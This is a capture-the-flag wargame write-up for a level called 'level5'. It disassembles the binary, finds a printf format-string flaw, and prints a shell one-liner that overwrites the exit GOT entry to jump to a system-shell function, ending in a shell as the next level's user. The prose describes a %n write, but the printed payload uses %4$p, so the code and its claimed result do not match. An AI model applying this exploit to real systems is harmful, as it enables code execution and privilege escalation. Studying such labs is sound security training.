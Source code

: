 <span style="display: flex; justify-content: space-between;"><span style="text-align: left; display: block;">
	[← level4](../level4/solution.md)
</span>
<span style="text-align: center; display: block;">
	[Home](../README.md)
</span>
<span style="text-align: right; display: block;">
	[level6 →](../level6/solution.md)
</span>
</span>

level5
======

Dissassembly
------------

To dissassemble the executable we can use objdump.
```sh
EXECUTABLE=./level5

objdump -M intel -d "$EXECUTABLE"
```

The main function looks like this:
```nasm
08048504 <main>:
 8048504:	55                   	push   ebp
 8048505:	89 e5                	mov    ebp,esp
 8048507:	83 e4 f0             	and    esp,0xfffffff0
 804850a:	e8 b3 ff ff ff       	call   80484c2 <n>
 804850f:	c9                   	leave
```

It calls another function n, which uses printf to print our input:

```nasm
080484c2 <n>:
 80484c2:	55                   	push   ebp
 80484c3:	89 e5                	mov    ebp,esp
 80484c5:	81 ec 18 02 00 00    	sub    esp,0x218
 80484cb:	a1 48 98 04 08       	mov    eax,ds:0x8049848
 80484d0:	89 44 24 08          	mov    DWORD PTR [esp+0x8],eax
 80484d4:	c7 44 24 04 00 02 00 	mov    DWORD PTR [esp+0x4],0x200
 80484db:	00
 80484dc:	8d 85 f8 fd ff ff    	lea    eax,[ebp-0x208]
 80484e2:	89 04 24             	mov    DWORD PTR [esp],eax
 80484e5:	e8 b6 fe ff ff       	call   80483a0 <fgets@plt>
 80484ea:	8d 85 f8 fd ff ff    	lea    eax,[ebp-0x208]
 80484f0:	89 04 24             	mov    DWORD PTR [esp],eax
 80484f3:	e8 88 fe ff ff       	call   8048380 <printf@plt>
 80484f8:	c7 04 24 01 00 00 00 	mov    DWORD PTR [esp],0x1
 80484ff:	e8 cc fe ff ff       	call   80483d0 <exit@plt>
```

There is a call to exit at the end of the procedure, so we cannot override the stored value of the EIP to jump on a shellcode.

There also is another function o, which uses a system call to run a shell:
```nasm
080484a4 <o>:
 80484a4:	55                   	push   ebp
 80484a5:	89 e5                	mov    ebp,esp
 80484a7:	83 ec 18             	sub    esp,0x18
 80484aa:	c7 04 24 f0 85 04 08 	mov    DWORD PTR [esp],0x80485f0
 80484b1:	e8 fa fe ff ff       	call   80483b0 <system@plt>
 80484b6:	c7 04 24 01 00 00 00 	mov    DWORD PTR [esp],0x1
 80484bd:	e8 ce fe ff ff       	call   8048390 <_exit@plt>
```

The problem is that it is not referenced, and needs to be accessed through a jmp or call instruction.
We can see that the only thing we can exploit would be the exit call itself, since we cannot reach any other function past this point.

The exit function uses a PLT-stub to redirect the call to the dynamically loaded libc library, whose address is only knwon past runtime-linking.
The stub function looks like this:
```nasm
080483d0 <exit@plt>:
 80483d0:	ff 25 38 98 04 08    	jmp    DWORD PTR ds:0x8049838
 80483d6:	68 28 00 00 00       	push   0x28
 80483db:	e9 90 ff ff ff       	jmp    8048370 <_init+0x3c>
```
The stub function jumps to a pointer stored at 0x8049838.
If we manage to overwrite this pointer, we can jump anywhere we want.

The stack of the n function looks like this:
| Address | Type           | Size |
|---------|----------------|------|
| -0x218  | char \*fmt     |   4  |
| -0x210  | FILE \*stdin   |   4  |
| -0x20c  | size_t len     |   4  |
| -0x208  | char data[200] | 512  |
|  0x000  | \*EBP          |   4  |
|  0x004  | \*EIP          |   4  |

We can place the address of the stub function's pointer to the start of our buffer, and write to it using the %n format specifier.

Let's try to jump to the o function with the system call:
```sh
ADDRESS=08049838
VALUE=080484a4

BYTES=$(<<< "$ADDRESS" rev | dd conv=swab | xxd -r -p)
LENGTH=$((16#$VALUE))
PADDING=$((LENGTH - ${#BYTES}))

echo "${BYTES}%${PADDING}x%4\$p" | ./level5
```
```sh
...
200
whoami
level6
```
